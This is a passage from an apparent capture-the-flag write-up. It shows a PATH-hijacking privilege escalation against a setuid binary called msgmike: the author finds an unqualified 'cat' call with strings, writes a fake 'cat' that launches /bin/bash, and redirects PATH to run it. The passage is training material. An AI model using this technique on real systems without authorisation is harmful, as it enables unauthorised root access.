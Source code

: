 We get 

    msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped

This means it’s a binary so we can’t read the file but we can use the strings command to only print out the readable text from the binary, so let’s do that using 

    strings msgmike

We can see an interesting line

    cat /home/mike/msg.txt

Let’s create a new cat command so that when this script runs it’ll run our command instead of the normal cat command.

For that we’ll have to modify the env parameters of the user.

Let’s first copy the current env path and save it on a notepad 

To print out all the environment variables

    env 

The one that we’re interested in is

    PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
Just copy and paste this somewhere as we’ll need it.

Now let’s create our own cat command using

    echo "/bin/bash" > cat

Now let’s change the env path variable so that it looks at /home/kane for the cat command.
To achieve that we’ll use 

    export PATH=/home/kane

Now none of the commands such as ls, dir, cp etc will work.
Let’s run the msgmike binary.

    msgmike
    sh: 1: cat: Permission denied

We’re getting a permission denied, we had to give it the execute permission after creating it. Now we can’t just use chmod to modify because the env path is not correct so let’s restore the env path using 

    export PATH=PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

Now Let’s give it execute permissions using

    chmod 777 cat

Now let’s change back the path to /home/kane and we’ll run the msgmike binary

    export PATH=/home/kane`
    ./msgmike
    bash: dircolors: command not found
    bash: ls: command not found
